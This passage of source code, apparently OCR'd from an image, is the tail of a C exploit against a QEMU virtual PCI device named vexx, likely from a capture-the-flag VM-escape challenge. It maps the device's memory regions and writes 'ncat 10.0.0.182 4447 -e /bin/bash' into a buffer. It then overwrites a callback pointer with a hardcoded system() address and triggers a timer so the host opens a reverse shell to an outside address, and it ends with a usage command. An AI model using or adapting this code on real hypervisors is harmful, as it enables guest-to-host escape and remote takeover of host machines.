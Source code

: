 ```
     PROT_READ|PROT_WRITE, MAP_SHARED, cfd, 0);  
    if(cmb == MAP_FAILED) {  
        exit(4);  
    }  
    //create vexx_mmio mapping  
    void *mmio = mmap(NULL, 0x1000,   
     PROT_READ|PROT_WRITE, MAP_SHARED,  mfd, 0);  
    if(mmio == MAP_FAILED) {  
        exit(5);  
    }  
    //copy argument string to dma_buf buffer  
    strcpy((cmb+0x59), "ncat 10.0.0.182 4447 -e /bin/bash");  
    //trigger vexx_cmb_write to overwrite cb field w/ address of  system()  
    *(u_int64_t *)(cmb + atoi(argv[3])) = 0x7ffff79dd290;  
      
    //trigger vexx_cmb_write to overwrite opaque field w. pointer to dma_buf  
    *(u_int64_t *)(cmb + atoi(argv[4])) = 0x55555739b678;  
      
    //trigger vexx_mmio_write to call timer_mod  
    *(u_int64_t *)(mmio + atoi(argv[5])) = 0x1;  
    exit(0);  
}
```


```
./exp /sys/devices/pci0000:00/0000:00:04.0/resource1 /sys/devices/pci0000:00/0000:00:04.0/
```
